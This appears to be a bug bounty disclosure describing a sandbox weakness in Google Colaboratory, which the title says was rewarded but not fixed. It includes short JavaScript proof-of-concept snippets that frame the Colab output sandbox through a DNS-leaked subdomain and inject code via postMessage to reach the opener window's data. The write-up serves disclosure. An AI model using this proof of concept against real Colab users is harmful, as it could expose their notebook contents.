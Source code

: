 ```yaml
---
title: Insecure sandbox on Colaboratory (Awarded $1337, Not Fixed)
---
```

Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open('about:blank');
```

On about:blank
```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do:
```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://'+IDfromDNS+'-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout(_ => { f.contentWindow.postMessage({sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'}, '*'); }, 100);
```

On the "Welcome to Colaboratory" project using the sandbox embedded on the attackers website.
- ```parent.opener[0].google``` refers to stuff.
- ```parent.opener[5].document``` refers to the chart.

Sometimes sandboxes use a randomly generated subdomain for isolation unfortunately due to unencrypted DNS this is not safe. <https://www.cloudflare.com/learning/dns/dns-over-tls/>
